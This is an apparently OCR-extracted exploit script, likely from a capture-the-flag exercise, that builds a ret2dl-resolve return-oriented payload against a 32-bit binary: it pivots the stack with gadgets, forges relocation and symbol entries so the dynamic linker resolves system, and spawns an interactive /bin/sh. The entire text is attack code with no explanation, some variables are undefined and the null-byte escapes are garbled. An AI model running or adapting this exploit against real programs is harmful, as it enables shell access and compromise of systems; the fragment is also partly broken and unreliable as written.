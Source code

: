 ```
base_stage=fake_esp+0x800
read_plt=0xf7ed2b00
stack_size=0x500

gadget1=0x0804851b #pop ebp |ret
gadget2=0x08048519 #  pop esi ; pop edi ; pop ebp ; ret
gadget3=0x080483c5 #
#New stack
payload="A"*0xe
payload+=p32(fake_ecx)
payload+="BBBB"
#payload+=p32(read_plt)
#payload+=p32(gadget2)
#payload+=p32(0)+p32(base_stage)+p32(100)
payload+=p32(gadget1)
payload+=p32(base_stage)
payload+=p32(gadget3)
payload+=p32(base_stage+stack_size)
#p.sendline(payload)

#struct
dynsym=0x080481cc
dynstr=0x0804822c
plt0=0x80482f0
rel_plt=0x080482b4

reloc_arg=0x804a872-rel_plt #fang hou mian yidian ,hui bei fugai
r_offset=0x0804a00c #read_got

fake_sym_addr=0x804a87a
align=0x10-((fake_sym_addr-dynsym)&amp;0xf) #align=8#栈对齐
fake_sym_addr=fake_sym_addr+align
r_info=((fake_sym_addr-dynsym)/0x10)&lt;&lt;8|0x7
#r_info=0x107

fake_rel=p32(r_offset)+p32(r_info)
bin_sh=0x804a8e3
payload+="A"*(0x804a85a-buf-len(payload))
payload+=p32(plt0)
payload+=p32(reloc_arg)
payload+="A"*4
payload+=p32(bin_sh)#set argc
payload+="A"*8
payload+=fake_rel

st_name=0x804a88c-dynstr
fake_sym=p32(st_name)+p32(0)+p32(0)+p32(0x12)

payload+="B"*align
payload+=fake_sym
payload+="systemx00"
payload+="A"*80
payload+="/bin/shx00"

p.sendline(payload)
p.interactive()
```

